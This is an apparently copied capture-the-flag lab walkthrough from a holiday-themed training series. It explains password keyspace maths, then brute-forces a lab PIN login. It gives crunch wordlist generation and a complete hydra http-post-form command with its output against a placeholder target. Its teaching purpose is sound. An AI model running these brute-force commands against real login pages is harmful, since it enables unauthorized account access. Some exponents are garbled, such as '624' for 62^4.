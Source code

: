 Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

**Learning Objectives**

After completing this task, you will understand:

- Password complexity and the number of possible combinations
- How the number of possible combinations affects the feasibility of brute force attacks
- Generating password combinations using ```crunch```
- Trying out passwords automatically using ```hydra```

**Feasibility of Brute Force**

In this section, we will answer the following three questions:

- How many different PIN codes do we have?
- How many different passwords can we generate?
- How long does it take to find the password by brute force?

**Counting the PIN Codes**

Many systems rely on PIN codes or passwords to authenticate users (authenticate means proving a user’s identity). Such systems can be an easy target for all sorts of attacks unless proper measures are taken. Today, we discuss brute force attacks, where an adversary tries all possible combinations of a given password.

How many passwords does the attacker have to try, and how long will it take?

Consider a scenario where we need to select a PIN code of four digits. 

How many four-digit PIN codes are there? The total would be 10,000 different PIN codes: ```0000```, ```0001```, ```0002```,…, ```9998```, and ```9999```. 
Mathematically speaking, that is 10×10×10×10 or simply 104 different PIN codes that can be made up of four digits.

**Counting the Passwords**

Let’s consider an imaginary scenario where the password is exactly four characters, and each character can be:

- A digit: We have 10 digits (0 to 9)
- An uppercase English letter: We have 26 letters (A to Z)
- A lowercase English letter: We have 26 letters (a to z)

Therefore, each character can be one of 62 different choices. Consequently, if the password is four characters, we can make 62×62×62×62 = 624 = 14,776,336 different passwords.

To make the password even more complex, we can use symbols, adding more than 30 characters to our set of choices.

![allowed](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/6c02ba13-41c2-4da6-87a0-ba0bd71c9676)

**How Long Does It Take To Brute Force the Password**

14 million is a huge number, but we can use a computer system to try out all the possible password combinations, i.e., brute force the password. If trying a password takes 0.001 seconds due to system throttling (i.e., we can only try 1,000 passwords per second), finding the password will only take up to four hours.

If you are curious about the maths, 624×0.001 = 14, 776 seconds is the number of seconds necessary to try out all the passwords. We can find the number of hours needed to try out all the passwords by dividing by 3,600 (1 hour = 3,600 seconds): 14,776/3,600 = 4.1 hours.

In reality, the password can be closer to the beginning of the list or closer to the end. Therefore, on average, we can expect to find the password in around two hours, i.e., 4.1/2 = 2.05 hours. Hence, a four-character password is generally considered insecure.

We should note that in this hypothetical example, we are assuming that we can try 1,000 passwords every second. Few systems would let us go this fast. After a few incorrect attempts, most would lock us out or impose frustratingly long waiting periods. On the other hand, with the password hash, we can try passwords offline. In this case, we would only be limited by how fast our computer is.

We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.

**Generating the Password List**

The numeric keypad shows 16 characters, 0 to 9 and A to F, i.e., the hexadecimal digits. We need to prepare a list of all the PIN codes that match this criteria. We will use Crunch, a tool that generates a list of all possible password combinations based on given criteria. We need to issue the following command:

```crunch 3 3 0123456789ABCDEF -o 3digits.txt```

The command above specifies the following:

- ```3``` the first number is the minimum length of the generated password
- ```3``` the second number is the maximum length of the generated password
- ```0123456789ABCDEF``` is the character set to use to generate the passwords
- ```-o 3digits.txt``` saves the output to the ```3digits.txt``` file

To prepare our list, run the above command on the AttackBox’s terminal.

```
root@AttackBox# crunch 3 3 0123456789ABCDEF -o 3digits.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096
crunch: 100% completed generating output
```

After executing the command above, we will have ```3digits.txt``` ready to brute force the website.

**Using the Password List**

Manually trying out PIN codes is a very daunting task. Luckily, we can use an automated tool to try our generated digit combinations. One of the most solid tools for trying passwords is Hydra.

Before we start, we need to view the page’s HTML code. We can do that by right-clicking on the page and selecting “View Page Source”. You will notice that:

- The method is ```post```
- The URL is ```http://MACHINE_IP:8000/login.php```
- The PIN code value is sent with the name ```pin```

![method](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/b9e891d9-a888-4220-8bf4-6bc6fac57b2b)

In other words, the main login page http://MACHINE_IP:8000/pin.php receives the input from the user and sends it to ```/login.php``` using the name ```pin```.

These three pieces of information, ```post```, ```/login.php```, and ```pin```, are necessary to set the arguments for Hydra.

We will use ```hydra``` to test every possible password that can be put into the system. The command to brute force the above form is:

```
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the ```3digits.txt``` file. It specifies the following:

- ```-l ''``` indicates that the login name is blank as the security lock only requires a password
- ```-P 3digits.txt``` specifies the password file to use
- ```-f``` stops Hydra after finding a working password
- ```-v``` provides verbose output and is helpful for catching errors
```MACHINE_IP``` is the IP address of the target
```http-post-form``` specifies the HTTP method to use
- ```"/login.php:pin=^PASS^:Access denied"``` has three parts separated by ```:```

```/login.php``` is the page where the PIN code is submitted

```pin=^PASS^``` will replace ```^PASS^``` with values from the password list

```Access denied``` indicates that invalid passwords will lead to a page that contains the text “Access denied”

- ```-s 8000``` indicates the port number on the target

It’s time to run ```hydra``` and discover the password. Please note that in this case, we expect ```hydra``` to take three minutes to find the password. Below is an example of running the command above:

```
root@AttackBox# hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 17:38:42
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1109 login tries (l:1/p:1109), ~70 tries per task
[DATA] attacking http-post-form://MACHINE_IP:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[...]
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[8000][http-post-form] host: MACHINE_IP   password: [redacted]
[STATUS] attack finished for MACHINE_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 17:39:24
```

The command above shows that ```hydra``` has successfully found a working password. On the AttackBox, running the above command should finish within three minutes.

We have just discovered the new password for the IT server room. Please enter the password you have just found at http://MACHINE_IP:8000/ using the AttackBox’s web browser. This should give you access to control the door.

Now, we can retrieve the backup tapes, which we’ll soon use to rebuild our systems.

**Q/A**

